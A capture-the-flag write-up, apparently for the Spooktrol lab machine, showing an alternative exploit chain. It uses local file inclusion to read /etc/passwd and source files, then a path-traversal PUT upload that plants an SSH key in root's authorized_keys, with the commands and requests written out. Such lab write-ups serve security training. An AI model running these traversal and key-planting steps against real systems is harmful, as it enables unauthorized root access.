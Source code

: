 # Alternative way to exploit Spooktrol

## Local File Inclusion on HTTP (Port 80)

The _file_ parameter on the web server has a **Local File Inclusion (LFI)** vulnerability that allows to read arbitrary files on the server:
```
http://10.10.11.123/file_management/?file=../../../etc/passwd
```

Fuzzing for the source code of the web application:
```
wfuzz -u 'http://10.10.11.123/file_management/?file=../FUZZ.py' -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt --hc 500
```

It finds _server.py_:
```
curl http://10.10.11.123/file_management/?file=../server.py
```
```python
if __name__ == "__main__":
    uvicorn.run("app.main:app", host="0.0.0.0", port=8000, reload=True)
```

By going through the Python scripts, it is possible to get more filenames and download them all:
```
curl http://10.10.11.123/file_management/?file=../server.py -o server.py
curl http://10.10.11.123/file_management/?file=../app/main.py -o main.py
curl http://10.10.11.123/file_management/?file=../app/database.py -o database.py
curl http://10.10.11.123/file_management/?file=../app/models.py -o models.py
curl http://10.10.11.123/file_management/?file=../app/crud.py -o crud.py
```

The script _main.py_ has the most important information and the _file_upload_ function that uses a **PUT method**.
After analyzing the scripts, this method can be used to upload files:
```
curl -H 'Cookie: auth=2a' -X PUT -F file=@/etc/passwd 10.10.11.123/file_upload/ --proxy localhost:8080
```

After sending it to a proxy like **Burpsuite**, we can modify the filename and the contents to an SSH key.

Creating SSH key:
```
ssh-keygen -f spooktrol
```

Sending the modified PUT request to add the SSH key into the _authorized_keys_ file:
```
PUT /file_upload/ HTTP/1.1
Host: 10.10.11.123
(...)

Content-Disposition: form-data; name="file"; filename="../../../../../../root/.ssh/authorized_keys"
Content-Type: application/octet-stream

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDatCJzFU9eBOnfV(...)
```

After trying to SSH into the box on both open ports, we receive a connection on the SSH port 2222:
```
ssh -p 2222 -i spooktrol 10.10.11.123
```
